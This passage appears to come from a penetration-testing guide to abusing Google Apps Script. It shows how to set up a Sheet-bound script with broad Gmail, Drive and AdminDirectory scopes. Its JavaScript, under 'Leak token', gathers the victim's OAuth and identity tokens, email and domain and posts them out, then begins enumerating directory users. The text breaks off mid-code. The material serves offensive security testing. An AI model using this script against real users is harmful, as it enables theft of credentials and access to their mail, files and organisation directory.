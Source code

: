 ### Create App Script

There are several ways to create an App Script, although the most common ones are f**rom a Google Document (of any type)** and as a **standalone project**:

<details><summary>Create a container-bound project from Google Docs, Sheets, or Slides</summary></details>

<details><summary>Create a standalone project</summary></details>

<details><summary>Create a standalone project from Google Drive</summary></details>

<details><summary>Create a container-bound project from Google Forms</summary></details>

<details><summary>Create a standalone project using the clasp command line tool</summary></details>

## App Script Scenario <a href="#create-using-clasp" id="create-using-clasp"></a>

### Create Google Sheet with App Script

Start by crating an App Script, my recommendation for this scenario is to create a Google Sheet and go to **`Extensions > App Scripts`**, this will open a **new App Script for you linked to the sheet**.

### Leak token

In order to give access to the OAuth token you need to click on **`Services +` and add scopes like**:

* **AdminDirectory**: Access users and groups of the directory (if the user has enough permissions)
* **Gmail**: To access gmail data
* **Drive**: To access drive data
* **Google Sheets API**: So it works with the trigger

To change yourself the **needed scopes** you can go to project settings and enable: **`Show "appsscript.json" manifest file in editor`.**

{% code overflow="wrap" %}
```javascript
function getToken() {
  var userEmail = Session.getActiveUser().getEmail();
  var domain = userEmail.substring(userEmail.lastIndexOf("@") + 1);
  var oauthToken = ScriptApp.getOAuthToken();
  var identityToken = ScriptApp.getIdentityToken();
  
  // Data json
  data = {
    "oauthToken": oauthToken,
    "identityToken": identityToken,
    "email": userEmail,
    "domain": domain
  }

  // Send data
  makePostRequest(data);
  
  // Use the APIs, if you don't even if the have configured them in appscript.json the App script won't ask for permissions
  
  // To ask for AdminDirectory permissions
  var pageToken = "";
  page = AdminDirectory.Users.list({
    domain: domain,  // Use the extracted domain
    orderBy: 'givenName',
    maxResults: 100,
    pageToken: pageToken
```